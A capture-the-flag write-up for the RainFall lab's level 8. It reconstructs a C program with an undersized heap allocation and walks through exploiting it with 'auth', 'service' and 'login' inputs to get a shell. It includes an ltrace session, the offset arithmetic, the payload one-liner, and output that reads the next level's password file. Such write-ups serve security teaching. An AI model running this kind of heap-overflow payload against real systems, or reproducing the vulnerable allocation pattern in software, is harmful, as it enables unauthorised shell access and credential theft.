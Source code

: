 # Level 8

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct s_user {
    int id;
    char login[28];
    int is_auth;
};

int *service;
struct s_user *user;

int main()
{
    while (1)
    {
        printf("%p, %p \n", user, service);

        char buf[128];

        if (!(fgets(buf, 128, stdin)))
            break;

        if (!(strncmp(buf, "auth ", 5)))
        {
            user = malloc(4);
            user->id = 0;

            if (strlen(buf + 5) <= 30)
                strcpy(user, buf + 5);
        }

        if (!(strncmp(buf, "reset", 5)))
            free(user);

        if (!(strncmp(buf, "service", 6)))
            service = strdup(buf + 7);

        if (!(strncmp(buf, "login", 5)))
        {
            if (user->is_auth)
                system("/bin/sh");
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. Different commands are then executed based on the input:
- `auth`: Allocates a user structure and copies the input into it.
- `reset`: Frees the user structure.
- `service`: Copies the input into the service buffer.
- `login`: Checks if the user is authenticated and, if so, grants shell access.

We notice that the `auth` doesn't allocate enough memory for the user structure, which is 36 bytes long (4 bytes for the id, 28 bytes for the login and 4 bytes for the `is_auth` field). This means that, with the `service` command, we can write to the user structure, since it will be allocated within the same memory space, and overwrite the `is_auth` field to gain shell access.

Here's the following steps to perform the exploit:
1. Use `auth` to allocate the user structure.
2. Use `service` to write in the user structure and overwrite `is_auth`
3. Execute `login` to verify authentication and obtain a shell.

We'll use `ltrace` to understand the memory allocations and calculate the size needed to overwrite `is_auth`:
```bash
$ ltrace ./level8
[...]
fgets(auth
"auth \n", 128, 0xb7fd1ac0) = 0xbffff6d0
malloc(4) = 0x0804a008
strcpy(0x0804a008, "\n") = 0x0804a008 # user
[...]
fgets(service
"service\n", 128, 0xb7fd1ac0) = 0xbffff6d0
strdup("\n") = 0x0804a018 # service
[...]
level8@RainFall:~$
```

We notice that the the user structure is allocated at `0x0804a008` for only 4 bytes, which is not enough to store the whole structure that is 36 bytes long. We also notice that the service buffer is allocated at `0x0804a018` (so within the same memory space as the user structure, since it is located between `0x0804a008` and `0x0804a028`). Futhermore we notice that the `is_auth` field is located at the 32nd byte of the user structure.  
So let's simply calculate the offset needed to reach `is_auth`:
```
0x0804a018 - 0x0804a008 = 0x10 (16 in decimal)
32 - 16 = 16 bytes of padding
```

We substract 32 from 16 because the `service` buffer was already allocated 16 bytes after the user structure. So we'll have to write 16 bytes of padding to reach `is_auth`. Anything written after that will overwrite `is_auth`.

Let's craft our payload:
```
"auth "
"service" + padding
"login"

"auth \n" + "service" + "A"*16 + "\n" + "login\n"
```

The `\n` are needed to simulate the user pressing the enter key and it will also serve as the 17th character needed to overwrite `is_auth`.

Let's run our payload:
```bash
level8@RainFall:~$ (echo "auth "; python -c 'print("service" + "A"*16)'; echo "login"; cat) | ./level8
(nil), (nil)
0x804a008, (nil)
0x804a008, 0x804a018
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

We are now level9! Let's move on to the next level.

